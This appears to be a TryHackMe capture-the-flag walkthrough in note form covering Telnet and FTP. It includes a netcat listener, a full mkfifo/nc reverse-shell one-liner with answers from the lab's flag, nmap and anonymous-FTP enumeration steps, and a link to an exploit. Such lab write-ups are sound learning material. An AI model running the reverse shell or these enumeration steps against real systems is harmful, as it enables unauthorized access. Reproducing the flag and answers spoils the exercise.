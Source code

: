- Start a netcat listener on the client machine: `nc -lvp 4444`
- What is the flag? [`THM{y0u_g0t_th3_t3ln3t_fl4g}`]
  - Ran `mkfifo /tmp/cgmutgm; nc 10.6.89.232 4444 0</tmp/cgmutgm | /bin/sh >/tmp/cgmutgm 2>&1; rm /tmp/cgmutgm`, which came from the `msfvenom` command

### FTP

#### Understanding FTP

- File Transfer Protocol (FTP) allows you to, not obviously at all, transfer files over a network. It uses a client-server model, which is more reliable (especially more so than SMB)
- Typical session operates using a command/control channel and a data channel
  - The command channel is used for transmitting commands (the snozzberries taste like snozzberries)
  - The data channel transfers the data (why the fuck did I buy premium lmao)

- The client-server model: the client initiates the connection with server, the server validates the credentials (performs authentication. BOOM, DOUBLE LESSON KNOWLEDGE!) then will open the session if it passes
- Two types of connections
  - Active: the client opens a port and listens. Server is required to actively connect to it
  - Passive: the server opens a port and listens passively. The client connects to the open port

- Separation of channels allows for quick file transfer

##### Questions

- What communications model does FTP use? [_client-server_]
- What's the standard FTP port? [_21_]
  - Big brain! No Google search needed! Ha!
- How many modes of FTP connection are there? [_2_]
  - Active and Passive

#### Enumerating FTP

- IP: `export THM_IP=10.10.76.129`

- Gonna use an anonymous FTP login exploit to see if there are any files to grab
- Gonna use `ftp`, though other clients exist
- Some variants of ftp servers have different exploits available
- Common one is an exploit which lets you run `cwd` before auth
  - [`cwd` exploit](https://www.exploit-db.com/exploits/20745)  

##### Questions

- Run an nmap scan of your choice.
  - `nmap -p- -sC -sV -oN nmap/net_svcs_1_ftp_1 $THM_IP`
- How many ports are open on the target machine? [_2_]
- What port is ftp running on? [`21`]
- What variant of FTP is running on it? [`vsftpd`]
- Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "ftp [IP]" into the console, and entering "anonymous", and no password when prompted. What is the name of the file in the anonymous FTP directory? [`PUBLIC_NOTICE.txt`]
  - Logged in with `ftp $THM_IP` then put the username `anonymous` and used no password
- What do we think a possible username could be? [`mike`]
  - Found files using `ls`
  - Used the command `get PUBLIC_NOTICE.txt` to download the file, name `Mike` was in there
